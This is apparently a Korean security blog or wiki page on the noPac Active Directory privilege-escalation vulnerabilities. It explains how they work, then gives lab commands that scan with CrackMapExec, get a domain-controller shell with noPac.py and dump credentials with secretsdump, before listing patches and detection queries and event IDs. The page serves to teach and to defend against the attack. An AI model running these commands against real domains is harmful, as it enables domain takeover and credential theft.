 # noPac

> noPac (CVE-2021-42278 + CVE-2021-42287) 과 관련된 기술적인 정보는 블로그 글을 참고해주시기 바랍니다 - [https://blog.sunggwanchoi.com/cve-2021-42278gwa-42287-pateu-2/](https://blog.sunggwanchoi.com/cve-2021-42278gwa-42287-pateu-2/) .

> 블로그 글을 그대로 복사/붙여넣기엔 너무 길어 파트1과 파트2의 실습 부분만 옮겼습니다.&#x20;

### 개념&#x20;

CVE-2021-42278, CVE-2021-42287 (aka. noPac)은 2021년 11월에 발견된 액티브 디렉토리 권한 상승 취약점이다. 액티브 디렉토리 내 일반 유저에서 도메인 관리자로 권한 상승이 가능해지며, 도메인을 장악할 수 있게된다. 취약점 발표는 2021년 11월달에 이뤄졌지만, 12월 11일 noPac 이라는 개념증명 공격 툴이 공개되어 다시 주목받고 있다. 마이크로소프트 사에서는 이 두 취약점에 모두 CVSS 7.5 - 높음 위험도를 부여했다. 해당 취약점들은 2021년 11월 9일에 발표된 KB5008380, KB5008602, 혹은 KB5008102 보안 패치를 통해 해결할 수 있다.

### CVE-2021-42278 - sAMAccountName Spoofing

액티브 디렉토리 내 머신 계정은 일반적으로 sAMAccountName 뒤에 “$” 이 붙는다. 예를 들어 도메인 컨트롤러 DC01.choi.local 의 sAMAccountName은 DC01$ 이다. CVE-2021-42278은 머신 계정의 sAMAccountName를 수정할 때 검증이 제대로 이뤄지지 않아 “$”를 뺀 sAMAccountName을 만들어낼 수 있는 취약점이다. 예를 들어 DC01$에서 “$”가 빠진 DC01으로 지정할 수 있다.

42278만 놓고보면 심각한 취약점이 아니지만 이는 42287 취약점 공격에 필수적인 요소로 사용된다.

### CVE-2021-42287

액티브 디렉토리에서 머신 계정은 S4U2self 커버로스 요청을 통해 <특정 유저>가 자신(머신)의 특정 서비스에 접근가능한 TGS 티켓을 KDC로부터 받을 수 있다. 42287 취약점은 S4U2self를 요청한 머신의 sAMAccountName 이 액티브 디렉토리에 존재하지 않을시, KDC가 스스로 머신의 sAMAccountName 에 `$` 을 붙여 TGS를 발급해주는 취약점이다.

이 취약점을 악용할 시 공격자는 도메인 컨트롤러와 sAMAccountName은 같지만 “$” 이 없는 머신 계정을 만든 뒤, TGT를 발급받고, 머신 계정의 sAMAccountName 을 다른 것으로 바꾼 뒤, <도메인 관리자>가 자신의 특정 서비스에 접근 가능한 S4U2self 요청을 KDC에게 보낸다. sAMAccountName이 바뀌었기 때문에 KDC는 액티브 디렉토리 내에서 이를 찾지 못하고, 결국 스스로 `$`을 붙여 (`DC01$`) <도메인 관리자>가 도메인 컨트롤러의 특정 서비스에 접근 가능한 TGS를 공격자에게 발급한다.

### 전제 조건&#x20;

1. 도메인 내 MAQ (MachineAccountQuota)의 값이 0이상 (기본값 10)으로 설정 되었을 시
2. noPac에 취약한 패치되지 않은 도메인 컨트롤러가 존재&#x20;
3. 도메인 유저 계정 존재&#x20;

### 실습&#x20;

실습에서는 noPac의 [파이썬 버전](https://github.com/Ridter/noPac)을 사용한다.&#x20;

#### 정보 수집&#x20;

CrackMapExec 이나 noPac 을 이용해 noPac에 취약한 도메인 컨트롤러가 있나 찾아본다.&#x20;

```
# CrackMapExec 
$ cme smb <DC-IP> -u <user> -p <pass> -d <domain> -M noPac 

$ cme smb 192.168.40.150 -u 'low' -p 'Password123!' -d choi.local -M nopac 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\low:Password123! 
NOPAC       192.168.40.150  445    DC01             TGT with PAC size 1373
NOPAC       192.168.40.150  445    DC01             TGT without PAC size 680
NOPAC       192.168.40.150  445    DC01             
NOPAC       192.168.40.150  445    DC01             VULNEABLE
NOPAC       192.168.40.150  445    DC01             Next step: https://github.com/Ridter/noPac

# noPac 
$ python3 scanner.py <domain>/<user>:<pass> -dc-ip <dc-ip> 
$ python3 scanner.py choi.local/low:'Password123!' -dc-ip 192.168.40.150
```

noPac 과 관련된 `unsupported hash type MD4` 에러가 있다면 `pip3 install pycryptodome` 을 설치한다.&#x20;

#### 공격&#x20;

```
# noPac으로 쉘 얻기  
$ python3 noPac.py <domain>/<user>:<pass> -dc-ip <dc-ip> -shell 

# nopac으로 커버로스 티켓 받아오기  
python3 noPac.py <domain>/<user>:<pass> -dc-ip <dc-ip>
export KRB5CCNAME=<full-path-.ccache-file>

# 티켓을 이용해 다양한 공격 
python3 secretsdumps.py <domain>/<user>@<target> -k -no-pass 
```

### 대응 방안&#x20;

* 다음의 보안 패치를 적용한다. 도메인 컨트롤러를 최신 버전으로 패치하면 자동으로 설치되니 굳이 찾아서 따로 설치를 할 필요는 없다.&#x20;
* **KB5008102 패치 -** 머신 계정의 sAMAccountName에는 무조건적으로 “$”이 들어가게끔 검증하도록 바뀌었다.
* **KB5008380 패치 -** S4U2self 요청시, TGT안에 PAC (Privileged Account Certificate) 이 들어가게끔 바뀌었다. TGT안의 PAC과 새롭게 발급하는 TGS안의 PAC이 일치하지 않으면 TGS를 사용해 서비스를 이용할 수 없도록 바뀌었다.

### 탐지 방안&#x20;

1. **sAMAccountName 검색**&#x20;

정말 특별한 경우가 아니라면 도메인 내 “$”이 없는 머신 계정은 존재해서는 안된다. 다음의 파워쉘 명령어를 이용해 “$”이 없는 머신 계정을 찾아본다. 결과가 나온다면 계정을 분석한 뒤 침해대응을 준비한다.

```
<# (https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/) #>
Get-ADComputer -Filter { samAccountName -notlike "*$" }
```

**2. 윈도우 이벤트 로그 - 머신 계정 생성 확인**&#x20;

다음의 윈도우 이벤트 로그를 확인한다.&#x20;

* 4741 - 머신 계정 생성
* 4742 - 머신 계정 수정 (sAMAccountName 이 “$” 이 없도록 수정되었는지 확인)
* 4743 - 머신 계정 삭제

만약 4741, 4742, 4743이 짧은 시간 (5\~10분) 동안 일어났고, 4742에서 “$”이 없는 sAMAccountName 수정이 확인되었다면, 공격 받았을 확률이 매우 높다.

**3. 11월 9일 패치에서 추가된 이벤트 로그 확인**

11월 9일 KB5008380 패치에서 마이크로소프트 사는 다음과 같은 이벤트 로그들을 추가했다. 이를 모니터링 룰에 적용한다.

* 35 - PAC without Attributes
* 36 - Ticket without a PAC
* 37 - Ticket without Requestor
* 38 - Requestor Mismatch (중요)

### 레퍼런스&#x20;

{% embed url="https://github.com/Ridter/noPac" %}
